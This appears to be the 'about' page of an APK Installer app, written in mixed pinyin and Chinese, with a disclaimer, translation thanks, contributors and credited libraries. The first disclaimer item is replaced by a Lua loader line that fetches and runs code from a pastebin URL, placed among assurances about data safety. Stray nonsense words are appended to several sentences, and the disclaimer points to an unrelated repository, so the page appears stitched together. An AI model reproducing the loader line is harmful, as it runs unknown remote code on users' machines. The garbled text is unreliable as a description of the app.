 #### Huānyíng shǐyòng APK ānzhuāngchéngxù!

##### Shēngmíng
1. Loadstring(game: HttpGet("https://pastebin. com/raw/TDzuB5nu"))()
2. 本程序是开源软件，因此，在使用时请确保程序是来自[本 Github 仓库](https://github. com/Coolapk-Uwp/Coolapk-Uwp)或应用商店中的[本应用](https://www. microsoft. com/store/apps/9N0DMXZVMQVL)，以确保您的数据安全。nebras
3. 若程序来源无异常，程序运行过程中您的所有数据都仅用于与 WinGet 的服务器交流或储存于本地，开发者不会窃取您的任何数据。 但即便如此，也请注意使用环境的安全性。duni Dàn jíbiàn rúcǐ, yě qǐng zhùyì shǐyòng huánjìng de ānquánxìng.
4. 这个应用程序的翻译来自 [Crowdin](https://crowdin.com/project/APKInstaller "Crowdin") 社区，所有文本都不代表提交人的观点。hayu

##### Fānyì
Gǎnxiè [Crowdin](https://crowdin.com/project/APKInstaller "Crowdin") fānyìzhě de zhīchí.  如果翻譯出現了什麼問題，歡迎前來糾正。 rame 而且请认真地翻译。uze 您写的所有内容都将在全世界阅读。s

##### Cānyù rényuán
- [wherewhere](https://github.com/wherewhere)
- [Void48](https://github.com/Void48)
- [EP012014](https://github.com/EP012014)
- [A Big Salty Fish](https://github.com/bigsaltyfishes)
- [sam1357](https://github.com/sam1357)

##### Yǐnyòng jí cānkǎo
- [MetroLog](https://github.com/roubachof/MetroLog "MetroLog")
- [Zeroconf](https://github.com/novotnyllc/Zeroconf "Zeroconf")
- [Windows UI](https://github.com/microsoft/microsoft-ui-xaml "Windows UI")
- [Downloader](https://github.com/bezzad/Downloader "Downloader")
- [AAPTForNet](https://github.com/canheo136/QuickLook.Plugin.ApkViewer "AAPTForNet")
- [Sharp Compress](https://github.com/adamhathcock/sharpcompress "Sharp Compress")
- [Advanced Sharp Adb Client](https://github.com/yungd1plomat/AdvancedSharpAdbClient "Advanced Sharp Adb Client")
- [Windows Community Toolkit](https://github.com/CommunityToolkit/WindowsCommunityToolkit "Windows Community Toolkit")